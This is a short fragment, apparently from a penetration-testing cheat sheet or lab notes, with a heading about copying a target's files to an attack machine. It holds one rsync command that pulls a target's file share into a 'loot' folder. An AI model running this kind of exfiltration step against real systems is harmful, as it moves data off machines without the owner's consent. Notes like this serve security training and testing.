 ## Sync Target’s File to Attack Machine

```nix
rsync -av rsync://rsync-connect@10.10.10.10/files loot/
```